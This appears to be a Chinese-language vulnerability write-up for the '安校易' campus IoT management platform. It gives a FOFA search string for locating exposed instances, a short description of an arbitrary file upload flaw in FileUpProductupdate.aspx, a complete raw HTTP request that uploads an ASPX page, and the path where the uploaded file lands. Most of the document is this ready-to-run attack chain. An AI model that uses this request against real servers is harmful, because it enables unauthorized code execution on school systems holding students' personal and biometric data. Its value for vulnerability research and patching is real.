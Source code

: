 **fofa**

```
body="login.aspx?action=GetOrgCardFormat"
```

**一、漏洞简述**

“安校易”以物联网技术为基础，以学生在校“学食住行”管理为中心，将消费管理、门禁管理、各类学生出入管理、家校互通、校门口进出身份识别等系统进行集成，有效减少校园管理盲点，提升校园安全防范与管理水平。同时，“安校易”又以大数据、人脸识别技和移动互联网为核心技术，以“安全·安心·沟通”为核心诉求，在教育局、学校、家长之间构建一个和谐高效和智慧的沟通互动平台，促进教育合力和智慧教育生态体系成型，做到让学校管理安全、让老师管理快捷、让领导科学决策和让家长安心放心。其接口FileUpProductupdate.aspx存在任意文件上传漏洞，攻击者可通过该漏洞获取系统权限。

**二、漏洞检测poc**

```yaml

POST /Module/FileUpPage/FileUpProductupdate.aspx HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Content-Type: multipart/form-data; boundary=----230982304982309
Connection: close
Content-Length: 251

------230982304982309
Content-Disposition: form-data; name="Filedata"; filename="test.aspx"
Content-Type: image/jpeg

<%@Page Language="C#"%><%Response.Write("HelloWorldTest");System.IO.File.Delete(Request.PhysicalPath);%>
------230982304982309--
```

/Upload/Publish/000000/0_0_0_0/update.aspx
